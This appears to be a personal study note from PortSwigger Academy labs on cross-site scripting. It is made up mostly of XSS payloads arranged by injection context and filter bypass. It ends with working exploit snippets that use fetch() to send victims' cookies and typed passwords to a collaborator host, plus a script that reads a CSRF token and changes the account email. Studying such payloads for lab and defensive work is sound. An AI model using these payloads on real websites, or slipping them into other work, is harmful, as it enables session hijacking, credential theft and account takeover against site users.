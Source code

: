 # basic attack

#apprentice 
#### reflected
in [[cause & sinks#reflected|this]] case: 
> `https://insecure-website.com/search?term=<script>alert(1)</script>`
#### stored
in [[cause & sinks#stored|this]] case:
> comment=`<script>alert(1)</script>`
#### DOM-based
in [[cause & sinks#DOM-based|this]] case
> `"><svg onload=alert(1)>`

---
# contexts
## between HTML tags
##### most tags and attributes blocked
`<>` -> `<§§>` -> body tag accepted ->`<body%20§§=1>` -> `onresize` accepted -> `<iframe src="https://vulnerable-website.com/?search="><body onresize=print()>" onload=this.style.width='100px'>`
##### all tags and attributes blocked except custom ones
`<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'`
##### some SVG markup allowed
`<>` -> `<§§>` -> `<svg>`, `<animatetransform>`, `<title>`,`<image>` accepted-> `<svg><animatetransform%20§§=1>` -> `onbegin` accepted-> `"><svg><animatetransform onbegin=alert(1)>`
## in HTML tag attributes

- **close the tag** ->  `"><script>alert(1)</script>`
- **same tag** -> **new attribute** ->
	- `" autofocus onfocus=alert(1) x="` (`x="` to gracefully repair the following markup
	- `"onmouseover="alert(1)`
- **same tag** -> **same attribute** 
	 - `<a href="javascript:alert(1)">`
	 - hidden input -> `https://vulnerable-website.com/?'accesskey='x'onclick='alert(1)`
## XSS into JavaScript

##### Terminating the existing script 
context: `<script> ... var input = 'controllable data here'; ... </script>` 
- `</script><img src=1 onerror=alert(document.domain)>` (reason:HTML parsing first)
- single quote and backslash escaped -> `</script><script>alert(1)</script>`
##### Breaking out of a JavaScript string
- `'-alert(1)-'` OR `';alert(1)//`
  - back slash escape :  `\';alert(1)//` -> `\\';alert(1)//` -> `';alert(1)//`
##### Making use of HTML-encoding
context: `<a href="#" onclick="... var input='controllable data here'; ...">`
- `&apos;-alert(1)-&apos;`
##### XSS in JavaScript template literals
context: ``<script> ... var input = `controllable data here`; ... </script>`` 
- `${alert(1)}`

## XSS via client-side template injection
...

---
# exploits
## to steal cookies

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST', mode: 'no-cors', body:document.cookie });
</script>
```

## to capture passwords

```html
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

## to perform CSRF

```html
<script> 
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com') };
</script>
```

---

[XSS cheat-sheet from portswigger academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) #todo 
